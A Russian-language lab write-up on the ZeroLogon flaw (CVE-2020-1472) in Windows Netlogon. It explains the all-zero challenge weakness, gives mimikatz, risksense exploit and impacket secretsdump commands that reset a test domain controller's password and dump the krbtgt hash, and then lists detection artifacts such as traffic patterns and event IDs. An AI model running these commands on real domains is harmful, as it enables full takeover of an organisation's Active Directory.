> [!important]  
> Уязвимость CVE-2020-1472 (ZeroLogon) позволяет неаутентифицированному атакующему удаленно получить права администратора домена. За счет ошибки в реализации протокола шифрования AES-CFB8 в Netlogon Remote Protocol (MS-NRPC) атакующий, имеющий доступ по сети к контроллеру домена, может эскалировать свои привилегии и изменить пароль учетной записи контроллера домена в AD. После этого атакующий может авторизоваться на DC с правами SYSTEM и получить полный доступ к базе Active Directory (сбросить пароли администраторов домена, или любые другие действия в AD).  

# Теория

Для реализации уязвимости Zerologon атакующему нужно установить соединение через Netlogon (используются порты **RPC** локатора **TCP/135**, динамический диапазон RPC и протокол SMB по порту TCP/445) с помощью определенной последовательности, начинающейся с нулей. Уязвимость в Netlogon позволяет выдать себя за легитимный компьютер домена, а эскалация привилегий позволяет сменить пароль аккаунта DC.

В контексте выполнения атаки, аутентификация происходит по протоколу RPC_NETLOGON и представляет собой следующий алгоритм:

1. _Запрос NetrServerReqChallenge с Client Challenge: 0000000000000000 к компьютеру DC_TEST_
2. _Ответ NetrServerReqChallenge с Server Challenge от DC_TEST_
3. _Запрос NetrServerAuthenticate3 с Client Crenedtials: 0000000000000000 к DC_TEST_
4. _Ответ NetrServerAuthenticate3 с Return Code: STATUS_SUCCESS или STATUS_ACCESS_DENIED_



В конечном счете, таких итераций будет ≤ 256, одна из которых позволит создать шифр-текст, состоящий только их одних нулей.

После успешного прохождения аутентификации (**Return Code: STATUS_SUCCESS**), меняется пароль, алгоритм смены которого выглядит следующим образом:

1. _Запрос NetrServerPasswordSet2 c желаемым паролем_
2. _Ответ NetrServerPasswordSet2 с уведомлением об успешном изменении пароля_



Если подытожить, то общая схема атаки выглядит так:



Кстати, поскольку Timestamp = 0, то в ответе на аутентификацию получим 1 января 1970 года:



# Практика

Есть 2 способа реализации атаки: **локальный** и **удаленный**.

В качестве локального вектора, используется mimikatz, а в качестве удаленного- общеизвестные эксплоиты.

## Локальная атака

Итак, для проведения атаки локально, воспользуемся mimikatz, в функционал которого был добавлен модуль zerologon.

`lsadump::zerologon /target:dc_test.test.local /account:dc_test$ /exploit /null`



Отлично, пароль для УЗ домен контроллера сброшен. Теперь, например, можно провести атаку DC SYNC:

`lsadump::dcsync /domain:test.local /dc:dc_test.test.local /user:krbtgt /authuser:dc_test$ /authpassword:"”`



NT хэш **krbtgt** успешно получен.

## Удаленная атака

В качестве эксплоита, использовал реализацию от **riskense**: [https://github.com/risksense/zerologon](https://github.com/risksense/zerologon)

При использования именно данного эксплойта, достаточно лишь данной команды:

`python3 set_empty_pw.py DC_TEST 192.168.1.1`



Также проведем атаку DC SYNC, но в этот раз с использованием хэша:  
  
`impacket-secretsdump -hashes :31d6cfe0d16ae931b73c59d7e0c089c0 'TEST/DC_TEST$@192.168.1.1'`



_Обратите внимание, что хэш пустого пароля действительно совпадает с хэшом УЗ компьютера._

Таким образом, мы смогли сбросить пароль и, по сути, скомпрометировать домен.

# Артефакты

## Трафик

Отличительной особенностью выполненной атаки служит большое количество трафика с попытками аутентификации по протоколу RPC_NETLOGON и однотипным содержанием:











В конечном счете, увидим STATUS_SUCCESS











Поскольку наш пароль- пустая строка, то NT хэш пароля будет принимать значение `:31d6cfe0d16ae931b73c59d7e0c089c0`





## События Windows
Основными артефактами проведенной атаки из журнала событий Windows служат:
* 5805 - _Не удалось выполнить проверку подлинности для сеанса компьютера kali (в случае удалено проведенной атаки). Произошла следующая ошибка:  Отказано в доступе.
* 5723 - *Не удалось установить сеанс с компьютера "mimikatz" (в случае локальной атаки), так как указанная им доверительная учетная запись "some_account" отсутствует в базе данных.*
* 4742 - *Была изменена учетная запись компьютера.* Здесь стоит учитывать AccountName (учетка домен контроллера).
* 5823 - *Система успешно сменила свой пароль на контроллере домена.* Здесь артефактом является хост контроллера домена в параметре Computer.

P.S. Если вы тоже любите сначала делать, а потом думать, то сбросить пароль от УЗ хоста можно командой `Reset-ComputerMachinePassword` :)